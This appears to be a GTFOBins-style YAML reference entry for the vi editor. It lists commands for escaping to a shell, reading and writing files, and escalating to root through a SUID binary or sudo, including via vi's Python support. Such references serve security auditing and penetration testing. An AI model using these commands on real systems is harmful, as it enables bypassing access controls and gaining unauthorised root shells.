 ```yaml
---
functions:
  shell:
    - code: vi -c ':!/bin/sh'
    - code: |
        vi
        :set shell=/bin/sh
        :shell
    - description: This requires that `vi` is compiled with Python support.
      code: vi -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
  file-write:
    - code: |
        vi file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: vi file_to_read
  suid:
    - code: ./vi -c ':!/bin/sh -p'
  sudo:
    - code: sudo vi -c ':!/bin/sh'
    - description: This requires that `vi` is compiled with Python support.
      code: sudo vi -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
---
```

